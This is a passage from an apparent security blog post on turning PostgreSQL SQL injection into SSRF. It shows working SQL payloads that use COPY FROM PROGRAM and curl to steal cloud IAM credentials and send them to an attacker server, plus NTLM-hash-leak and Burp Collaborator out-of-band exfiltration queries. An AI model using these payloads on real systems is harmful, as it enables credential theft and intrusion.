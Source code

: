 ```sql
CREATE TABLE test();
COPY test from PROGRAM 'curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ ';
COPY test from PROGRAM 'curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole -o /tmp/creds';
COPY test from PROGRAM 'curl -F "data=@/tmp/creds" http://attacker-collection-server/';
```

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/11.png)

The collection server logs will show the contents of the `/tmp/creds` file POSTed from within Postgres

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/12.png)

Given that this allows us the execution of `cURL` in all it's glory, we can even use this to query the Instance meta-data service of all cloud providers as the method type and additional headers can all be passed as arguments to `cURL`.

Alternatively, there are documented ways of using `COPY FROM` to perform NTLM hash leak and to perform Out of Band SQL Injection Exploitation, but I had no luck with that on `PostgreSQL 10.13 on a Windows 10.0.18362` box. Obviously, these are supposed to work on Windows boxes as UNC paths are a Windows thing. The queries that should work and leak creds or perform OOBE are shown below

```sql
-- can be used to leak hashes to Responder/equivalent
CREATE TABLE test();
COPY test FROM E'\\\\attacker-machine\\footestbar.txt';
```

```sql
-- to extract the value of user and send it to Burp Collaborator
CREATE TABLE test(retval text);
CREATE OR REPLACE FUNCTION testfunc() RETURNS VOID AS $$ 
DECLARE sqlstring TEXT;
DECLARE userval TEXT;
BEGIN 
SELECT INTO userval (SELECT user);
sqlstring := E'COPY test(retval) FROM E\'\\\\\\\\'||userval||E'.xxxx.burpcollaborator.net\\\\test.txt\'';
EXECUTE sqlstring;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT testfunc();
```

### DBLINK Module

The `dblink` is a module that supports connections to other PostgreSQL databases from within a database session. It supports <a href="https://www.postgresql.org/docs/9.6/dblink.html" target="_blank" rel="noopener noreferrer">numerous functions to open database connections to remote servers</a> and perform actions on them.

Of the functions listed at `https://www.postgresql.org/docs/9.6/dblink.html`, the `dblink_connect_u()` stands out from the context of an attacker. According to the documentation, `dblink_connect_u()` is identical to `dblink_connect()`, except that it <a href="https://www.postgresql.org/docs/9.6/contrib-dblink-connect-u.html" target="_blank" rel="noopener noreferrer">will allow non-superusers to connect using any authentication method</a>. 
